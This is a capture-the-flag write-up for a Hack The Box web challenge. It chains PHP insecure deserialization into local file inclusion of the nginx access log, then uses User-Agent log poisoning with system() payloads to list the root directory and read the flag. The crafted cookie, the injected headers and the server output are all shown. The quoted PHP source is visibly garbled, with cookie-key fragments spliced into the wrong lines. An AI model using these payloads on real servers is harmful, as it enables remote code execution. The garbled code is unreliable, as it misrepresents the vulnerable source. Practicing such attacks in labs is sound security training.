


# Toxic
> Challenge: [Toxic](https://app.hackthebox.com/challenges/toxic)
> 
> Something to read:
> + [Web Security Academy: Insecure Deserialization](https://portswigger.net/web-security/deserialization)
> + [File Inclusion: LFI2RCE](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce)

## Solution
I obviously know that the web has **insecure deserialization** vulnerabilities.

It's shown in source code of this web too.
```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

SID']if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSES);
unserialize($cookie);
```
And we will use this issue to exploit **file inclusion** vulnerabilities, realizing that it is an `nginx` server, we will use this serialized payload:
```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}
```

Next using log poisoning with User-Agent header to gain more information:
```http request
GET / HTTP/1.1
Host: 159.65.20.166:30525
User-Agent: <?php system('pwd'); ?>
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://159.65.20.166:30525/
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxv
```
We gain the log:
```
10.244.4.110 - 200 "GET / HTTP/1.1" "http://159.65.20.166:30525/" "/www
" 
```
It works! Next using `ls` and `cat` to see the flag:
Payload: `User-Agent: <?php system('ls -la /'); ?>`
```
10.244.4.110 - 200 "GET / HTTP/1.1" "http://159.65.20.166:30525/" "total 84
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 .
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 ..
drwxr-xr-x    2 root     root          4096 Apr 14  2021 bin
drwxr-xr-x    5 root     root           360 Jan 22 08:52 dev
-rw-------    1 root     root           179 Apr 30  2021 entrypoint.sh
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 etc
-rw-r--r--    1 root     root            31 Apr 30  2021 flag_NaJT3
drwxr-xr-x    1 root     root          4096 Apr 19  2021 home
drwxr-xr-x    1 root     root          4096 Apr 14  2021 lib
drwxr-xr-x    5 root     root          4096 Apr 14  2021 media
drwxr-xr-x    2 root     root          4096 Apr 14  2021 mnt
drwxr-xr-x    2 root     root          4096 Apr 14  2021 opt
dr-xr-xr-x  335 root     root             0 Jan 22 08:52 proc
drwx------    2 root     root          4096 Apr 14  2021 root
drwxr-xr-x    1 root     root          4096 Jan 22 08:52 run
drwxr-xr-x    2 root     root          4096 Apr 14  2021 sbin
drwxr-xr-x    2 root     root          4096 Apr 14  2021 srv
dr-xr-xr-x   13 root     root             0 Jan 22 08:52 sys
drwxrwxrwt    1 root     root          4096 Jan 22 08:52 tmp
drwxr-xr-x    1 root     root          4096 Apr 30  2021 usr
drwxr-xr-x    1 root     root          4096 Apr 30  2021 var
drwxr-xr-x    4 root     root          4096 Apr 30  2021 www
" 
```
Payload: `User-Agent: <?php system('cat /flag_NaJT3'); ?>`
```
10.244.4.110 - 200 "GET / HTTP/1.1" "http://159.65.20.166:30525/" "HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
" 
```

**Flag:** `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


